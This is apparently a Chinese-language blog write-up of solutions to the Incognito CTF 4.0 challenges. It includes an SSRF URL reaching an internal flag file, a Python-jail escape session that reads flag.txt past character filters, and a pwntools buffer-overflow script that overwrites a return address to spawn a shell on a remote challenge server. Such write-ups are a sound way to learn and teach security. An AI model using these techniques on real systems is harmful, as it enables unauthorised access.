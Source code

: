 ```yaml
---
title: Incognito CTF 4.0
date: 2023-02-18 20:18:45
tags: ['CTF', 'Python']
categories: ['比賽']
description: Incognito CTF 解題紀錄
---
```


## Web

### Get flag 1
SSRF `?url=http://0.0.0.0:9001/flag.txt`

### Low on options
根據題目提示用OPTIONS request得到`As I said, I am low on options...`。 ~~一句廢話~~
![](loo-options.png)
索性把所有method全部試一次，PROPFIND request拿到flag。
![](loo-propfind.png)

## Crypto

### Ancient
拿到一個缺header的png檔，將header補上後得到有象形文字的圖片，以圖搜圖查到是十三世紀的一種記數方式，用[此網站](https://www.dcode.fr/cistercian-numbers)轉成數字對照Ascii table便可拿到flag。
![](challenge.png)

## Pyjail

### The only jail
nc進去發現是一個偽裝過的Python環境，有過濾一些像斜線、反斜線、大括號等字元，用os的path join便可湊出路徑用讀取flag。
```python
Welcome to the IIITL Jail! Escape if you can
jail> import os
jail> print(os.listdir())     
['opt', 'srv', 'tmp', 'lib', 'bin', 'media', 'lib64', 'dev', 'sys', 'home', 'libx32', 'root', 'var', 'run', 'etc', 'sbin', 'lib32', 'usr', 'boot', 'mnt', 'proc', '.dockerenv', 'start.sh']
jail> print(os.listdir("home"))
['ctf']
jail> path = os.path.join("home", "ctf")
jail> print(os.listdir(path))
['.bash_logout', '.bashrc', '.profile', 'flag.txt', 'jail.py']
jail> path = os.path.join(path, "flag.txt")
jail> flag = open(path)
jail> print(flag.read())
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
jail> 
```

## Rev

### Meow
flag藏在.rodata

## Pwn

### Baby Flow
checksec什麼都沒開，BOF把return address置換成get_shell的即可。
```python
from pwn import *

#conn = process('./babyFlow')
conn = remote('143.198.219.171', 5000)

payload = b'A'*20 + p32(0x80491fc)

conn.recvuntil('can you pass me?\n')

conn.sendline(payload)

conn.interactive()
```
